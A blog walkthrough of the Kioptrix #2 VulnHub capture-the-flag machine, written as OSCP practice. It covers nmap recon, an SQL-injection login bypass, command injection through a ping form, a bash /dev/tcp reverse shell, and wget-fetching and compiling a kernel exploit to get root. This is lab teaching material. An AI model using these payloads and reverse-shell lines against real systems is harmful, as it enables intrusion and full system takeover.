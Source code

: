 ```yaml
---
title: "Kioptrix #2 Walkthrough"
author: alex
date: Thu  6 Jul 18:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-kioptrix-2-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough **[here!](/posts/kioptrix-1-walkthrough)**

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.38    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.38
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.38
Host is up (0.00040s latency).
Not shown: 65528 closed tcp ports (reset)

PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            761/udp   status
|_  100024  1            764/tcp   status

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de29f9fbfb2eb2beafe6243157090f
|_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
|_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1

764/tcp  open  status   1 (RPC #100024)

3306/tcp open  mysql    MySQL (unauthorized)

MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 5h59m58s
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far.

- **Port 80/443:** Let's start with HTTP and HTTPS. We have both ports open so the first thing we are going to do is open the browser and search for http://192.168.1.38. We find a login page, let's keep going with the recon before trying anything here.

- **Other ports:** Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Done with the recon then!

## Enumeration

Back to the login page. This cheap looking login form is crying for some **SQLi attempts**. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field and `1234` as password, we get access to the administrator page!

![SQL Injection](/login-sql-injection.png)

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

```
192.168.1.23

PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms

--- 192.168.1.23 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2
```

Looks like the output we get when pinging from the console so... would it be vulbnerable to **Remote Code Execution**? Let's try to submit `192.168.1.23; whoami`

![Remote Code Execution](/remote-code-whoami.png)

Oh yeah! **Vulnerable to RCE!** We can `cat` the `/etc/passwd` to do some user enumeration as well:

![/etc/passwd File](/data-leak.png)

Now let's try to spawn a shell for us:

**On attaker's machine:**

```bash
sudo nc -nvlp 443
```

**In the ping text field:**

```bash
192.168.1.23; bash -i >& /dev/tcp/192.168.1.23/443 0>&1
```

And we have a shell! Now it's time to escalate privileges! First, let's find out the kernel version and the release.

![Shell](/shell.png)

```bash
uname -a
```

And we see that **kernel is 2.6.9**. Now, let's cat the release:

```bash
cat /etc/*-release
```

And the release is **CentOS 4.5**.

## Exploitation

Back to our machine, let's find an exploit that suits best for these features:

```bash
searchsploit linux 2.6 CentOS 
```

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

```bash
searchsploit -m linux/local/9545.c
```

Now we have to copy it into the `/var/www/html` folder and start Apache.

```bash
sudo service apache2 start
```

Back to Kioptrix:

```bash
wget 192.168.1.23/9545.c
gcc 9545.c -o exploit
chmod 777 exploit
./exploit
```
![Root!](/root.png)

And there we go! Now we are root! I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!
